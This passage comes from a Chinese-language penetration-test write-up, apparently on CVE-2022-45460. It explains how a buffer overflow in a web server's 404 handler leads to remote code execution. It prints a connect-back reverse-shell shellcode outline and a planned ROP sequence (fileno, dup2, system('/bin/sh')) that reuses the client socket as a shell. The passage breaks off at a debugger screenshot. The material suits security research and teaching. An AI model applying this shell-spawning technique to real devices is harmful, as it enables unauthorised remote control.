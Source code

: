 通过 `telnetd` 实现的简单漏洞利用及Shell获取。

## 更进一步

让我们回顾一下，由于缓冲区溢出而能够转移控制流的代码部分。可以看到，在返回语句之前，有两个 `fwrite` 调用，用于将响应写入到发送原始请求的客户端连接的 `socket_stream` 中。

```c
    write_response_header(socket_stream,0x68);
    fwrite("<html><head><title>404 File Not Found</title></head>\\n",1,0x35,socket_stream);
    fwrite("<body>The requested URL was not found on this server</body></html>\\n",1,0x43,socket_stream);
    return 0;

```

这让我产生了以下两个假设：

1. 触发ROP链时，连接尚未关闭。
2. `socket_stream` 的引用很可能仍保存在某个寄存器中。

这让我想起了CTF竞赛中的一些挑战，其中存在漏洞的二进制文件通过 `socat` 等工具在套接字上公开。在这些情况下，构造Shellcode以实现RCE的常见方法如下：

```c
fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP); // 创建套接字
connect(fd, (struct sockaddr *) &serv_addr, 16); // 连接
dup2(fd, 0); // 将套接字文件描述符复制到标准输入（STDIN）
dup2(fd, 1); // 将套接字文件描述符复制到标准输出（STDOUT）
dup2(fd, 2); // 将套接字文件描述符复制到标准错误（STDERR）
execve("/bin/sh", 0, 0); // 执行 /bin/sh

```

`socket()` 函数使用指定的域、类型和协议创建一个新的套接字。`connect()` 函数则用于建立与目标地址的连接。连接建立后，`dup2()` 函数被调用三次，将套接字文件描述符重定向到标准输入、标准输出和标准错误，有效地将Shell的输入输出绑定到该套接字上。最后，`execve()` 函数执行 `/bin/sh`，生成一个通过已建立连接进行通信的Shell。

在上述情况下，我已经完成了这个策略的一半。我已经有了一个套接字/连接，所以剩下要做的就是调用 `dup2` 函数，并调用 `system` 函数，对吧？这样我就可以将已经建立的连接重新用作Shell。

不过，由于我拥有的是 `FILE *stream`，而 `dup2` 需要一个整数类型的文件描述符，所以还需要额外的一步——调用 `fileno()` 函数来获取相应的文件描述符。因此，这个计划大致如下：

```c
fd = fileno(stream)
dup2(fd, 0)
dup2(fd, 1)
dup2(fd, 2)
system("/bin/sh")

```

然而，在开始构建ROP链之前，我想先验证一下之前的假设。为此，我在第二次调用 `fwrite` 之前设置了一个断点，并在返回语句处设置了另一个断点。当命中第一个断点时，`socket_stream` 的引用应该在R3中（`fwrite` 的第四个参数）。

![image2](一次渗透过程中的CVE-2022-45460撞洞RCE/image2.png)

